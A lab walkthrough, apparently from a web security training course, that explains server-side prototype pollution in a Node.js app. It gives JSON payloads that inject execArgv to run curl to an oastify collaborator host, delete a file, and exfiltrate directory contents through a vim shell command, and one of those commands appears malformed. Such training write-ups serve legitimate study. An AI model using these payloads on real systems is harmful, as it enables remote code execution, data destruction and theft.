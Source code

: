 ### LAB: Remote code execution via server-side prototype pollution

Found that `/my-account/change-address` is vulnerable to prototype pollution, send this the request with this body:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "BT6cFDohs56k0GoEGP4xRXwFF2RY1SHK",
        "__proto__": {
            "execArgv": [
            "--eval=require('child_process').execSync('curl https://kzn4ftgcclackeaamiwn2p1ndej57xvm.oastify.com')"
            ]
        }
    }

Send the `POST /admin/jobs HTTP/2` to spawn node child process which execute the OS command. Notice the HTTP request coming to our Collaborator, indicating a successfull RCE. Now redo the process but with this body for the `POST /my-account/change-address HTTP/2` request to solve the lab:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "BT6cFDohs56k0GoEGP4xRXwFF2RY1SHK",
        "__proto__": {
            "execArgv": [
            "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
            ]
        }
    }

### LAB: Exfiltrating sensitive data via server-side prototype pollution

Send the `POST /my-account/change-address HTTP/2` request to `Repeater`. Try pollute the prototype by adding this to the body:

    "__proto__": {
        "json spaces": 10
    }

Notice the indention of the returned object viewed in raw is changed which indicates a successfull prototype pollution. Now change the body to include this:

    "__proto__": {
        "shell": "vim",
        "input": ":! cat $(/home/carlos).hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com \n"
    }

